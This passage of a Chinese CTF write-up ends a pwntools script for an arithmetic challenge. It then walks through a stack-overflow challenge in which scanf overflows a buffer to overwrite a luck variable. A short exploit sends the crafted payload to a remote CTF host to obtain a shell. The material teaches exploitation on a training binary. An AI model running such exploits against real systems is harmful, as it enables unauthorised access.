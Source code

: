 ```python
        res = int(a,10)*int(b,10)
    elif operatorCh=='/':
        res = int(a,10)//int(b,10)
    elif operatorCh=='+':
        res = int(a,10)+int(b,10)
    elif operatorCh=='-':
        res = int(a,10)-int(b,10)
    print(res)
    if(res>=0):
        final = str(res).encode()
    else:
        final = b'-'+str(-res).encode()
    sh.sendline(final)

sh.interactive()

```
## bear的等待
难度：**
熊大大在等待一位天选之人，想赠予他绝世秘籍。你会是这个天选之人吗？
### 考察知识点：

1. 栈溢出篡改临时变量：需要学会了解栈帧，分析栈地址在内存中的映射，根据临时变量在栈地址空间的存储顺序来覆写。
2. 需要了解scanf函数的漏洞（这时候就可以明白为什么vs系列会强制使用scanf_s了）。
3. 进阶要求：配置好pwndbg，熟悉pwndbg的操作，并学会如何让pwndbg跟pwntools配套使用。
### 做题过程：
老规矩，先逆向，简单分析程序逻辑。找到main函数
![image.png](https://cdn.nlark.com/yuque/0/2023/png/38460676/1694001874752-2059469d-b54c-4dd5-8311-7630805ba020.png#averageHue=%23fdfcfc&clientId=ue5b42c10-01f4-4&from=paste&height=399&id=u604b3864&originHeight=649&originWidth=1050&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=54420&status=done&style=none&taskId=uc1a3b235-b2f0-4f1a-aa85-d0c04aea0ff&title=&width=645.4000244140625)
分析getluck()函数，getluck函数就是返回带有随机种子的随机数。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/38460676/1694001884501-3c87a43b-a458-4e50-b744-a0be6a1f061a.png#averageHue=%23fafaf9&clientId=ue5b42c10-01f4-4&from=paste&height=236&id=ua1cae386&originHeight=295&originWidth=470&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=15043&status=done&style=none&taskId=u97f4cf85-22b6-470f-88c7-f50126eb6a5&title=&width=376)
后面就是一些简单的逻辑判断，先回答yes，然后输入一个数字，然后比较这个数字跟getluck()得到的随机数，如果相等，则给shell
![image.png](https://cdn.nlark.com/yuque/0/2023/png/38460676/1694001952534-da63d200-7163-4ca0-8dca-2847a799c1fb.png#averageHue=%23fdfdfd&clientId=ue5b42c10-01f4-4&from=paste&height=405&id=u5c39a225&originHeight=636&originWidth=949&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=44357&status=done&style=stroke&taskId=udce427f5-ef02-4cdc-8742-1c1b6c568c7&title=&width=604.4000244140625)
这一题的关键就是在于v8在字符串s1的后面。而s1是用scanf读入的，可以用scanf来完成越界内存的写入，改变v8的值。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/38460676/1694002310089-51bedc6f-71d1-481c-87d5-af13f8005a1d.png#averageHue=%23fbfbfb&clientId=ue5b42c10-01f4-4&from=paste&height=246&id=u376f4fb2&originHeight=308&originWidth=731&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=26405&status=done&style=stroke&taskId=u71506929-23c3-45e2-ba22-f5a0e608fb7&title=&width=584.8)
exp如下
```python
from pwn import *
# 设置上下文语境
context(log_level = 'debug', os = 'linux', arch = 'amd64')
def dbg():
    gdb.attach(sh)
    pause()

#sh = process("./stackoverflow")
sh = remote("100.78.41.3",10001)
#dbg()

sh.recvline()
# 覆写luck变量为1
payload = b'yes\0'+12*b'a'+p32(1)
sh.sendline(payload)
# 输入num
sh.sendline(b'1')
sh.interactive()

```
## bear的backd00r_1
难度：* *